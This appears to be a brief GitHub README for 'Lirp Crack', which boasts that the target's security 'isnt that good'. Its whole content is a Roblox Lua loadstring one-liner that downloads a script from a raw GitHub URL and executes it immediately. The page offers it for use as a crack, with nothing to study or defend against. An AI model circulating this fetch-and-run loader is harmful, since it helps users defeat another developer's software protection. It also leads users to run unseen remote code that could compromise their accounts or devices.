 # Lirp Crack
security isnt that good lol

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Zartoooo/Lirp-Crack/refs/heads/main/a"))()
```
